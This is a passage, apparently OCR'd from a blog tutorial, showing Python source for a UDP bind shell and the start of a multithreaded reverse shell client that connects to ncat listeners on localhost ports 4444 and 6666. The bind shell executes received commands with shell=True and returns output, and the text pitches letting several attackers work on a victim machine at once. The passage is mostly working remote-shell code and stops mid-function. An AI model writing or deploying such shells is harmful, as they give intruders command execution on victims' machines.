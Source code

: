 ```python
        
        if 'cd ' in data:
            cmd, path = data.split()
            os.chdir(path)
            return

        print(f"{ip}:{port}> {data}")
        proc = Popen(
            args   = data,
            stdout = PIPE, 
            stderr = STDOUT, 
            shell  = True
        )

        # stdout contains stderr
        message   = proc.stdout.read()
        bytesSent = sock.sendto(message, (ip, port))
        
if __name__ == "__main__":
    try:
        bind_shell()
    except KeyboardInterrupt:
        print("ctrl+c")
```

## **Multithreading & Multiprocessing**

I always try to include an example of multithreading in my articles as it increases practicality. Imagine a reverse shell that could connect to multiple attackers that could simultaneous work on the victim machine and increase the productivity of the intended goal. Open two ncat listeners, one using IPv4 on port 4444 and the other using IPv6 running on port 6666. You'll notice that the reverse shell works as intended and connects to both listeners. The problem with threads is that if one attacker changes the current working directory, this also changes the working directory for the other attacker. This problem can be solved with multiprocessing.

# Reverse Shell (Client)
```python
from subprocess      import Popen, PIPE, STDOUT
from multiprocessing import Process, current_process
from threading       import Thread
import socket

# ncat -l4vp 4444, ncat -l6vp 6666
ADDRLST = [('127.0.0.1', 4444), ('::1', 6666)]

def threaded_shells():
    for host, port in ADDRLST:
        tHandle = Thread(target=reverse_shell, args=(host,port))
        print(f"[{tHandle.name}] Threading: {host}:{port}")
        tHandle.start()

def multiprocess_shells():
    for host, port in ADDRLST:
        pHandle = Process(target=reverse_shell, args=(host,port))
        print(f"[{current_process().name}] Process: {host}:{port}")
        pHandle.start()

@infinite
def reverse_shell(host, port):
    # socket object is created and assigned to rshell
    # using the create_connection method
    with socket.create_connection((host, port)) as rshell:
```